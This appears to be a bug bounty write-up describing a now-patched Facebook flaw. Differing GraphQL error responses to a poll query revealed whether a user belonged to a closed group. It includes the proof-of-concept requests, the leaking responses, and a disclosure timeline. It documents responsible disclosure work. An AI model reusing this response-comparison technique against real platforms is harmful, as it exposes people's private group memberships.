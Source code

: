 ```yaml
---
title:  "Disclose members in any Groups."
date:   2019-11-24 12:24:15 +0800
categories: Hacking
classes:
  - landing
header:
  teaser: /assets/img/Facebook.jpg
---
```


I found that any non-member could disclose members in any closed Facebook group.

## POC / Reprosteps

User A ( In closed group (C) )
User B (non-member)

Poll question.

questionID":"2998452380182679" (Group C) -> user A


```
POST /api/graphql/ HTTP/1.1
Host: www.facebook.com

variables={"actorID":"USER A","first":5,"questionID":"2998452380182679"}&doc_id=2507703069268152

```
Response

```
"severity": "CRITICAL",
         "code": 1675030,
         "api_error_code": -1,
         "summary": "Query error",
         "description": "Error performing query.",
         "is_silent": false,
         "is_transient": false,
         "requires_reauth": false,
```

Now repeat step 1 replace member ->  non-members

```
POST /api/graphql/ HTTP/1.1
Host: www.facebook.com

variables={"actorID":"USER B","first":5,"questionID":"2998452380182679"}&doc_id=2507703069268152

```
Response

As opposed to a user who does not have a member 

``` 

"api_error_code": 200,
"summary": "Insufficient Permission",
"description": "You do not have the necessary permission for the specified Page to perform the requested action.",
"is_silent": false,

```
Replace a member in the group 
USER C ( in closed group )

```
POST /api/graphql/ HTTP/1.1
Host: www.facebook.com

variables={"actorID":"USER C","first":5,"questionID":"2998452380182679"}&doc_id=2507703069268152

```
Response


```

"severity": "CRITICAL",
         "code": 1675030,
         "api_error_code": -1,
         "summary": "Query error",
         "description": "Error performing query.",
         "is_silent": false,
         "is_transient": false,
         "requires_reauth": false,

```
member is known based on the difference in responses as well as being explicitly stated in the error message.

## Impact

This could potentially let an attacker infer whether a user has a member on a specific group.

## Timeline

13/09/2019: Report Sent

15/09/2019: Confirmation of reproduce by Facebook

19/09/2019: Further Investigation By Facebook

21/09/2019: Patched By Facebook

21/09/2019: Confirmation of patch by Facebook

03/11/2019: $3000 bounty awarded by Facebook


